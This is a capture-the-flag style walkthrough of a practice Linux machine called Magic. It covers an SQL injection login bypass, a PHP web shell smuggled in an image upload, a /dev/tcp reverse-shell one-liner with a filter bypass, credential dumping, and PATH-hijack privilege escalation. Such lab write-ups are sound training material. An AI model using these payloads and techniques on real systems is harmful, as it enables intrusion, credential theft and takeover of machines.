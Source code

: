 ```yaml
---
description: Medium machine OSCP style
---
```


# Magic

## Reconnaissance

First we ensure that the machine is up by pinging it. Moreover, we can notice from the TTL that it is a Linux machine as the value is 63 (should be 64 but because of the intermediary node it is decreased).

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 18.04.26.png" alt=""><figcaption></figcaption></figure>

In a first scanning, using nmap to look for open ports the target machine does only have ports 22 and 80 opened.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 18.07.23.png" alt=""><figcaption></figcaption></figure>

Through a version scan, we look for further information about the services running on that ports.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 18.09.33.png" alt=""><figcaption></figcaption></figure>

With the tool `whatweb` we obtain more information about the technologies that the web server on port 80 is using.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 18.10.03.png" alt=""><figcaption></figcaption></figure>

This is the aspect of the web page. As we can see, images can be seen and in the down left corner we can see a login link and it says you must log to then upload images.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 18.13.23.png" alt=""><figcaption></figcaption></figure>

## Exploitation

As we do not have any credentials, we start making some attempts of SQL injection in order to log in without any valid credentials. After some time, we are able to log in using `' or 1=1#` or in this case `admin'#`.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 18.12.59 (1).png" alt=""><figcaption></figcaption></figure>

Then the upload panel is shown and we can upload any image with .jpg, .png or .jpeg extensions. To test this functionality we upload a test image and then ensure that it was uploaded successfully.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 18.13.05.png" alt=""><figcaption></figcaption></figure>

This is the uploaded image and as can be seen, it is shown in the main web page.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 18.16.22.png" alt=""><figcaption></figcaption></figure>

To exploit this functionality, we get the same image that was previously uploaded and add the .php extension so that the image has two extensions.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 18.18.30.png" alt=""><figcaption></figcaption></figure>

Then, we modify the content of the image to insert php code so that we may be able to execute code on the server. This code basically uses the parameter `cmd` to execute this with the function system.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 18.20.26.png" alt=""><figcaption></figcaption></figure>

After uploading it, we test it accessing to the image via the browser and executing the command `ls -l` to test if it works. As can be seen in the image, the command is executed and the result is shown.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 18.34.49.png" alt=""><figcaption></figcaption></figure>

Then we are using the parameter `cmd` to run the reverse shell. The command used is:

```
bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1'
```

However there is some sanitization but changin the & for %26 it works.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 19.07.15.png" alt=""><figcaption></figcaption></figure>

With the listener configured and the request performed, the shell is received.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 19.07.31.png" alt=""><figcaption></figcaption></figure>

As the user `www-data` we start looking for interesting information and after some time, we notice that there is a file called `db.php5` in the directory of the web server. As we can see in the image, we can see some credentials of the user theseus.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 19.22.42.png" alt=""><figcaption></figcaption></figure>

With the `mysql` tool we are able to dump the database and as we can see in the second image, there are some other credentials shown.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 19.28.20.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 19.28.03.png" alt=""><figcaption></figcaption></figure>

At this point, we try to switch to the user `theseus` using this password and we got it. Now we get the flag.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 19.29.28.png" alt=""><figcaption></figcaption></figure>

## Privilege escalation

Now we are going to try to escalate privileges. Looking for suid privileges we notice that there is a a binary called `sysinfo` which is suspicious.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 19.32.00.png" alt=""><figcaption></figcaption></figure>

At this point we ensure that it has suid privileges so it could be used to escalate to gain adminitrative privileges.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 19.33.28.png" alt=""><figcaption></figcaption></figure>

By exectuing this binary, we notice that the result is information about the system as it can be seen in the image below.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-02 a las 19.33.14.png" alt=""><figcaption></figcaption></figure>

Using the tool `strings` we obtain the strings of the binary and we see that it is running certain commads to get the information about the disks, hardware or cpu. As we can see, the commands are execute using relative paths.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-03 a las 11.25.36.png" alt=""><figcaption></figcaption></figure>

With the tool `which` we see where the binary fdisk is stored.&#x20;

{% hint style="info" %}
As the commands are being run in a relative way, the attacker could modify the PATH value so the binary is taken from another directory under the attacker control which includes malicious binaries using the names of those that are being used by the program.
{% endhint %}

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-03 a las 11.26.46.png" alt=""><figcaption></figcaption></figure>

To exploit it, we are going to use the fdisk binary to create another binary under the `/tmp` folder with the same name but with a piece of code to provide the `/bin/bash` suid privileges. Then, we modify the PATH value to first look under the `/tmp` directory.&#x20;

As we can see, before running again the binary `/bin/sysinfo` the bash has no suid privileges.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-03 a las 11.37.58.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
We have to provide execution privileges to the binary to be executed.&#x20;
{% endhint %}

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-03 a las 11.36.45.png" alt=""><figcaption></figcaption></figure>

After running `sysinfo` again, the program calls to `fdisk` but now it is found in the `/tmp` directory so the binary is run and the privileges of `/bin/bash` are changed to suid.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-03 a las 11.38.57.png" alt=""><figcaption></figcaption></figure>

After this we can get the root flag and PWNED!

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-04-03 a las 11.39.28.png" alt=""><figcaption></figcaption></figure>
